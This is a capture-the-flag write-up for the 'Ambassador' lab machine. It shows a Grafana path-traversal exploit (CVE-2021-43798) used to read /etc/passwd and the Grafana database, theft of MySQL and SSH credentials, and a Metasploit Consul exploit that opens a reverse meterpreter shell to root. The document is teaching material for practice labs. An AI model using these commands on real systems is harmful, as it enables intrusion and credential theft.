

# Ambassador

---

## Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```bash
$ export IP=10.129.215.145
$ echo $IP
10.129.215.145
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```bash
$ ping $IP
PING 10.129.215.145 (10.129.215.145) 56(84) bytes of data.
64 bytes from 10.129.215.145: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.129.215.145: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.129.215.145: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.129.215.145: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Enumeration

First step after spawning in the target machine and connected to the VPN, I start an [`nmap`](https://nmap.org) scan to determine open ports and running services and may be vulnerable using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```bash
$ nmap -sV -sC -v -oN scan.nmap $IP
```

After the scan is complete, here's the result:

```shell
Nmap scan report for 10.129.215.145
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
```

---

## Grafana

At first, I started looking through the web app runnig on port 80, but I got nothing out of it, nothing in `gobuster` dir scan nor `wfuzz` subdomain fuzz, except that there's a page that leaks a username `developer` which might come in handy later on:


Moving on, I decided to visit port 3000 which is open according to the nmap scan, I was greeted with `Grafana` login page, so I immediately started trying out some default credentials but with no success. After some googling and poking around, I found that some interesting stuff or creds may be found in the fine `grafana.ini` and according to the official grafana docs [here](https://docs.gitlab.com/ee/administration/monitoring/performance/grafana_configuration.html#:~:text=/etc/grafana/grafana.ini), it can be found in `/etc/grafana/grafana.ini`, so I started looking for an LFI vulnerability in grafana, and I found one using `exploit-db`:

```shell
└─$ /opt/exploitdb/searchsploit grafana     
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                                | multiple/webapps/50581.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

And the version I'm working with is `8.2.0`, hopefully It's also vulnerable to this exploit. The CVE for this exploit is [CVE-2021-43798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798)


Perfect, I got a copy of that exploit file, modified it a bit to suit my case here, and ran it on `/etc/passwd` as a trial:

```shell
└─$ cp /opt/exploitdb/exploits/multiple/webapps/50581.py .

└─$ python 50581.py -H http://10.129.216.66:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

Read file > 
```

Done! as a first step, I wanted to see what users exist on the target machine that I should be looking towards, I saved this output to a file `passwd` and started to check targetted users, but first I wanted a more manual way to do this, which can save some time in the long run trying to save the output to a file, so I tried the following command and it worked:

```bash
└─$ curl --path-as-is http://$IP:3000/public/plugins/alertlist/../../../../../../../../etc/passwd -o passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```

```shell
└─$ cat passwd | grep bash                  
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

So the intel I got earlier was useful in a way, now it's time to get the targetted file `/etc/grafana/grafana.ini`, and I got it! saved the output to a file and started analyzing it, and finding the password of the `admin` user wasn't that hard. `messageInABottle685427`.



Logged in as `admin` and it worked! Now time to google some stuff...

Upon reading more articles about this CVE I found this [Github Repo](https://github.com/jas502n/Grafana-CVE-2021-43798) which has a list of useful files that might be in interest, I had no access to any SSH keys or anything but I saw this `/var/lib/grafana/grafana.db` file, so I got it using the previous exploit and tried to run it using `sqlite3`:

```bash
└─$ curl --path-as-is http://$IP:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  644k  100  644k    0     0   330k      0  0:00:01  0:00:01 --:--:--  330k
                                                                                                                                                             
└─$ file grafana.db 
grafana.db: SQLite 3.x database, last written using SQLite version 3035004, file counter 553, database pages 161, cookie 0x119, schema 4, UTF-8, version-valid-for 553
```

Perfect.

```bash
└─$ sqlite3 grafana.db 
SQLite version 3.39.3 2022-09-05 11:02:23
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from user;
1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2022-10-02 16:07:08|0
sqlite> select * from user_auth;
sqlite> select * from user_auth_token;
5|1|fb56b31d6f1d1b8ce93f30ed2051c1464e81ddb62789711daba75bb774043440|fb56b31d6f1d1b8ce93f30ed2051c1464e81ddb62789711daba75bb774043440|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36|10.10.16.28|1|1664725483|1664725483|1664725483|1664725483|0
6|1|bd473d42f8b4f4b53f6b7febb03a225bfe1998fad27eefd64bf9115be112b384|6f86b25da822764af23485eab42024114f4007c39422d42cabc85ed4e5397362|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36|10.10.16.28|1|1664726518|1664726517|1664725781|1664725781|0
sqlite> 
```

I then started navigating through the Grafana application to see any databases connected to it, I know there is, port 3306 is server MySQL database, I'm sure there is, and I found it in the `data sources` section:


So I went back to the `sqlite3` database and I noticed the table `data_source` which surely contains the credentials to the `MySQL` database:

```shell
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-10-02 08:55:24|0|{}|1|uKewFgM4z
sqlite> 

```

Nice, username is `grafana` and the password is `dontStandSoCloseToMe63221!`. Now to connect to the MySQL database.

```bash
└─$ mysql -u grafana -h $IP -P 3306 -p                              
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 31
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

```

I then started investigating the MySQL database:

```shell
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.066 sec)

MySQL [(none)]> use grafana;
Database changed
MySQL [grafana]> show tables;
Empty set (0.078 sec)

MySQL [grafana]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.067 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.105 sec)

MySQL [whackywidget]> 
```

In the database `whackywidget` I found the table `users` and I got creds for the user `developer` and what looks like to me a base64 encoded password, also `developer` was the targetted user to get SSH connection! I connected and got the user flag.

```bash
└─$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d                                                           
anEnglishManInNewYork027468
                                                                                                                                                             
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Ambassador]
└─$ ssh developer@$IP 
developer@10.129.216.66's password: 

Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$ ls
snap  user.txt
developer@ambassador:~$ cat user.txt
*******************************8
developer@ambassador:~$ 
```

---

## Privilege Escalation

After connecting to the target machine using SSH, I found the directory `/snap` but didn't find anything useful there for now, so I transfered and ran `linpeas.sh` and `pspy64` on the target machine and found that `root` is periodically running `consul`:

```shell
2022/10/02 17:03:03 CMD: UID=0    PID=1041   | /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl 
``` 

So I started googling and reading about `consul` and found that it's a service networking solution to automate network configurations, discover services, and enable secure connectivity across any cloud or runtime.

Upon investigating the machine and cruising around, I found the following:

```shell
developer@ambassador:~$ find / -group consul 2>/dev/null
/etc/consul.d
/etc/consul.d/consul.hcl
/etc/consul.d/consul.env
/etc/consul.d/README
/opt/consul
/opt/consul/node-id
/opt/consul/raft
/opt/consul/raft/raft.db
/opt/consul/raft/peers.info
/opt/consul/raft/snapshots
/opt/consul/checkpoint-signature
/opt/consul/serf
/opt/consul/serf/remote.snapshot
/opt/consul/serf/local.snapshot
developer@ambassador:~$ cd /opt/consul
developer@ambassador:/opt/consul$ ls -la
total 24
drwxr-xr-x 4 consul consul 4096 Mar 13  2022 .
drwxr-xr-x 4 root   root   4096 Sep  1 22:13 ..
-rw-r--r-- 1 consul consul  394 Mar 13  2022 checkpoint-signature
-rw------- 1 consul consul   36 Mar 13  2022 node-id
drwxr-xr-x 3 consul consul 4096 Mar 13  2022 raft
drwxr-xr-x 2 consul consul 4096 Mar 13  2022 serf
developer@ambassador:/opt/consul$ cd ..
developer@ambassador:/opt$ ls
consul  my-app
developer@ambassador:/opt$ cd my-app/
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app$ 

```

`/opt/my-app` looks interesting, I went inside and found a git repo, so I started navigating through and executed the following commands:

```shell
developer@ambassador:/opt/my-app$ git whatchanged 
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

:100755 100755 35c08f6 fc51ec0 M        whackywidget/put-config-in-consul.sh

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

:000000 100755 0000000 35c08f6 A        whackywidget/put-config-in-consul.sh

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

:000000 100755 0000000 d2c40f4 A        whackywidget/manage.py
:000000 100644 0000000 e69de29 A        whackywidget/whackywidget/__init__.py
:000000 100644 0000000 bf8abe0 A        whackywidget/whackywidget/asgi.py
:000000 100644 0000000 79406a8 A        whackywidget/whackywidget/settings.py
:000000 100644 0000000 d573d56 A        whackywidget/whackywidget/urls.py
:000000 100644 0000000 4a1f6dc A        whackywidget/whackywidget/wsgi.py

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore

:000000 100644 0000000 681ceb5 A        .gitignore
developer@ambassador:/opt/my-app$ git diff c982db8eff6f10f8f3a7d802f79f2705e7a21b55
diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app$ 
```

```shell
developer@ambassador:/opt/my-app/whackywidget$ ls -la
total 20
drwxrwxr-x 3 root root 4096 Mar 13  2022 .
drwxrwxr-x 5 root root 4096 Mar 13  2022 ..
-rwxrwxr-x 1 root root  668 Mar 13  2022 manage.py
-rwxrwxr-x 1 root root  228 Mar 13  2022 put-config-in-consul.sh
drwxrwxr-x 2 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app/whackywidget$ cat put-config-in-consul.sh 
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app/whackywidget$
```

Now It's clear that `Consul` is my way to escalate my privileges, I got a token: `bb03b43b-1d81-d62b-24b5-39540ee469b5` and the MySQL password I got from earlier which is: `dontStandSoCloseToMe63221!`. Time for some more googling again. I ended up using `metasploit` to gain root access on the target machine, but I plan on performing a privilege escalation without metasploit soon.

First I started a port forward from the SSH connection to my local port 8500, then I ran the `metasploit` script:

```shell
└─$ ssh -L 8500:0.0.0.0:8500 developer@$IP
developer@10.129.216.110's password: 

developer@ambassador:~$ 
```

```shell
msf6 > use exploit/multi/misc/consul_service_exec 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/consul_service_exec) > 
msf6 exploit(multi/misc/consul_service_exec) > set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5
acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5
msf6 exploit(multi/misc/consul_service_exec) > set lhost 10.10.16.28
lhost => 10.10.16.28
msf6 exploit(multi/misc/consul_service_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/misc/consul_service_exec) > run

[*] Started reverse TCP handler on 10.10.16.28:4444 
[*] Creating service 'QYjEjgcsk'
[*] Service 'QYjEjgcsk' successfully created.
[*] Waiting for service 'QYjEjgcsk' script to trigger
[*] Sending stage (1017704 bytes) to 10.129.216.110
[*] Removing service 'QYjEjgcsk'
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Meterpreter session 1 opened (10.10.16.28:4444 -> 10.129.216.110:58192) at 2022-10-03 17:49:04 -0400

meterpreter > shell
Process 3005 created.
Channel 1 created.
whoami
root
which python
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
root@ambassador:/# cd /root
cd /root
root@ambassador:~# ls
ls
cleanup.sh  root.txt  snap
root@ambassador:~# cat root.txt
cat root.txt
*******************************e
root@ambassador:~# 
```

---
